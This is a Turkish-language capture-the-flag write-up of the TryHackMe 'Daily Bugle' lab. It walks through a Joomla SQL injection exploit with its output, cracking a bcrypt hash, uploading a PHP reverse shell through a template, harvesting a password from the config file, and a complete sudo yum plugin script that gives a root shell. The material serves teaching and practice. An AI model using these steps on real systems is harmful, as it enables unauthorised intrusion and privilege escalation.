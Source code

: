```yaml
---
title: 'TryHackMe | Daily Bugle WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [sql injection, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_daily_bugle/
image:
  path: logo.webp
---
```


## Özet

Daily Bugle, SQL injection zafiyetli eklentiye sahip olan bir joomla uygulamasıdır. Bu zafiyete özel olarak hazırlanmış bir sömürü aracından faydalanarak kullanıcı bilgilerini elde edeğiz. Daha sonra bu bilgileri kullanarak içerik yönetim sistemine giriş yapacak ve temalar kısmından php reverse shell kodumuzu yükleyeceğiz. Bağlantı sonrasında ise joomla'nın konfigürasyon dosyasınından bir kullanıcının parolasını alacak ve onun hesabına geçeceğiz. Sonra da root haklarıyla çalıştırabileceğimiz yum aracı için bir eklenti yazacak ve çalıştırdıktan sonra root haklarına sahip olacağız.

## Keşif aşaması

### Nmap taraması

![](1.webp){: width="1200" height="600" }

Tarama sonucunda 22 (SSH), 80 (HTTP) ve 3306 (Mysql) numaralı portların açık olduğunu öğreniyoruz. Mysql servisine yetkisiz olarak bağlanabileceğimi düşündüm. Ancak bağlanmaya çalıştığımda `ERROR 2002 (HY000)` hatası ile karşılaştım. HTTP servisinden devam edelim.

### 80 numaralı port'un incelenmesi

![](2.webp){: width="1200" height="600" }

Web uygulamasında örümcek adamın hırsızlık yaptığı bir haber paylaşılmış. Haberi paylaşan kişinin ismi `Super User`. Uygulamanın favicon dosyasına baktığımızda `joomla` içerik yönetim sisteminin kullanıldığını öğreniyoruz. Joomscan aracını kullanarak hedef uygulamayı tarayalım.

```console
$ joomla -u 10.10.19.236
...
[+] Detecting Joomla Version                                                                                                                                                                  
[++] Joomla 3.7.0 
...
```

Tarama sonucunda içerik yönetim sisteminin 3.7.0 sürümünü kullandığını öğrendik. Adını ve sürümünü google da arattıktan sonra [bu](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) exploit ile karşılaşıyoruz.

## Sömürü aşaması

Exploit'i indirdikten sonra çalıştırıyor ve kullanıcı bilgilerini elde ediyoruz.

```console
$ python3 joomblah.py http://10.10.19.236/
...
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Elde ettiğimiz hash'i john aracının yardımıyla kıralım.

```console
$ john hash -w=Desktop/rockyou.txt 
[sudo] password for appdone: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s***3    (?)
...
```

Kullanıcı bilgilerini kullanarak SSH servisine bağlanmayı denedim ama olmadı. Daha sonra joomla paneline giriş yaptıktan sonra temalar kısmından ana sayfaya php shell kodumu girdim.

![](3.webp){: width="1200" height="600" }

Kayıt ettikten sonra "Template Preview" butonuna tıkladığımızda reverse shell kodunu çalıştırıyor ve sisteme ilk adımımızı atıyoruz.

## Yetki yükseltme

### jjameson

Joomla uygulamasının konfigürasyon dosyasının içerisinden `jjameson` kullanıcısının parolasını alıyoruz.

```console
bash-4.2$ cat configuration.php
public $dbtype = 'mysqli';                                                                                                                                                            
public $host = 'localhost';                                                                                                                                                           
public $user = 'root';                                                                                                                                                                
public $password = 'nv5uz9r3ZEDzVjNu';                                                                                                                                                
public $db = 'joomla';
```

Kullanıcıya geçiş yaptıktan sonra ilk bayrağı kendi dizininden alıyoruz.

# root

`sudo -l` komutunu kullandıktan sonra yum aracını parola gerektirmeden ve tüm kullanıcılar adına çalıştırabileceğimizi öğreniyoruz.

```console
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

yum aracını kullanarak nasıl yetki yükseltebileceğimizi öğrenmek için [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo) sitesinden faydalanıyoruz. Oradan aldığımız komutu sistemde çalıştırdıktan sonra root yetkisinde bir shell'e sahip oluyoruz.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Bu komut yığını root kullanıcısına geçiş yapabilmemiz için bir eklenti oluşturuyor. Eklentileri aktif ettikten sonra belirtilen eklenti adresinden eklentiyi alıp çalıştırıyor, böyleye root haklarına sahip bir shell elde ediyoruz.

